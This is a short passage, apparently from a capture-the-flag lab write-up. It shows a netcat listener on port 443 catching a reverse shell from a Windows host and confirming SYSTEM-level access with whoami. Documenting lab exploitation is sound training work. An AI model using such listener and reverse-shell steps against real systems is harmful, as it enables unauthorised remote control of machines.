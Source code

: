 The shell comes back and lives past the timeout:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.108 49757
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

```